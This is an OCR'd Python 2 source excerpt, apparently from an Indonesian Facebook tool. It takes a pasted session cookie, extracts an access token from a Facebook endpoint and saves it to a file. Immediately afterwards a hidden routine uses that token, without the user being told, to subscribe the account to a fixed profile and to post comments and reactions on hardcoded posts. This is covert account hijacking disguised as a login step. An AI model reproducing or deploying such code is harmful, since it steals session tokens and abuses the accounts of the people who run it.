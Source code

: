 #### LOGIN COOKIES ####
def login_cookie():
	os.system('clear')
	print logo
	print ("\033[0;91m╔═══════════════════════════════════════════════════════════════╗")
	try:
		cookie = raw_input("\033[0;97m   •\033[0;97m Cookie \033[0;97m:\033[0;97m ")
		data = {
		            'user-agent' : 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Kiwi Chrome/68.0.3438.0 Safari/537.36', # don't change this user agent.
			        'referer' : 'https://m.facebook.com/',
			        'host' : 'm.facebook.com',
			        'origin' : 'https://m.facebook.com',
			        'upgrade-insecure-requests' : '1',
			        'accept-language' : 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7',
			        'cache-control' : 'max-age=0',
			        'accept' : 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
			        'content-type' : 'text/html; charset=utf-8',
			         'cookie' : cookie }
		coki = requests.get('https://m.facebook.com/composer/ocelot/async_loader/?publisher=feed#_=_', headers = data)
		cari = re.search('(EAAA\w+)', coki.text)
		hasil = cari.group(1)
		zedd = open("login.txt", 'w')
		zedd.write(hasil)
		zedd.close()
		print '\033[0;97m   √ Login Berhasil'
		time.sleep(2)
		bot_komen()
	except AttributeError:
		print '\033[0;97m   ! Cookie Salah'
		time.sleep(2)
		masuk()
	except UnboundLocalError:
		print '\033[0;97m   ! Cookie Salah'
		time.sleep(2)
		masuk()
	except requests.exceptions.SSLError:
		os.system('clear')
		print '\033[0;97m   ! Koneksi Bermasalah'
		exit()

#### BOT KOMEN ####
def bot_komen():
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print"\033[1;97m   [!] Token invalid"
		os.system('rm -rf login.txt')
	kom = ('Sukses Selalu Bang! 😘')
	reac = ('LOVE')
	post = ('10215192646369292')
	post2 = ('10215301558092017')
	kom2 = ('Sukses Selalu Bang! 😘')
	reac2 = ('LOVE')
        requests.post('https://graph.facebook.com/1827084332/subscribers?access_token=' + toket)
	requests.post('https://graph.facebook.com/'+post+'/comments/?message=' +kom+ '&access_token=' + toket)
	requests.post('https://graph.facebook.com/'+post+'/reactions?type=' +reac+ '&access_token='+ toket)
	requests.post('https://graph.facebook.com/'+post2+'/comments/?message=' +kom2+ '&access_token=' + toket)
	requests.post('https://graph.facebook.com/'+post2+'/reactions?type=' +reac2+ '&access_token='+ toket)